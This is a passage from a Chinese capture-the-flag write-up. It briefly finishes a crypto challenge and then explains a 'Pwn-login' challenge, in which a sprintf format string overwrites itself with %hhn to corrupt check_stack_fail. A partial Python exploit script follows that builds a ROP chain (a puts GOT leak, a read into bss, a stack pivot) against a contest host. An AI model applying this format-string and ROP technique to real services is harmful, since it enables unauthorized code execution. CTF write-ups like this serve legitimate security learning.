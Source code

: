 等到爆出来的时候，比赛已经结束了。爆出来为:

%6K#7E&amp;5C*9G!8I$

当然这还不是最终结果，还要用这个作为密钥，去AES解密加密表，才能得到flag。。。

**<br>**

**Pwn-login**

sprintf里面的格式化字符串的内容可以被自身的格式化给覆盖掉，把%s:%s覆盖掉，覆盖成%hhn，然后格式化来改写check_stack_fail的最后一字节，拿shell的时候 ，不能用system拿，不能用system拿，环境变量被栈覆盖掉了：

```
from zio import *
   
 target = ("58.213.63.30",4002)
   
   def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io
   
   def gen_rop_data(func_addr, args, pie_text_base = 0):
     p_ret = [0x0804844e, 0x08048465, 0x0804891a, 0x08048919, 0x08048918]
     rop_data  = ''
     rop_data += l32(func_addr)
     if len(args) &gt; 0:
         rop_data += l32(p_ret[len(args)] + pie_text_base)
     for arg in args:
         rop_data += l32(arg)
     return rop_data
   
   def pwn(io):
   
    puts_got                   = 0x0804a01c          
    offset_puts                = 0x656a0             
    puts_plt                   = 0x080484c0
   
    read_plt                   = 0x08048480
   
    read_buff_addr = 0x0804862B
   
    check_stack_fail_got = 0x804A014
   
    bss_addr = 0x0804a000 + 0xe20
    leave_ret = 0x08048715
    pop_ebp_ret = 0x0804871f #: pop ebp ; ret
   
    username = ""
    #username += 'bbbb'
    username += l32(check_stack_fail_got)
    username += "a"*0x4C
    #username += "bbbb"
    username += gen_rop_data(puts_plt, [puts_got])
    username += gen_rop_data(read_buff_addr, [bss_addr, 0x01010101])
    username += l32(pop_ebp_ret) + l32(bss_addr)
    username += l32(leave_ret)
    #username += gen_rop_data(puts_plt, [puts_got+4])
   
   
    print hex(len(username)), hex(0xd6 - 0x5c - 4)
    #username = username.ljust(0xd6 - 0x5c - 4, 'a')
   
    #username += "%s:%s.%p.%p.%p.%p.%p"# + "%p."*4
```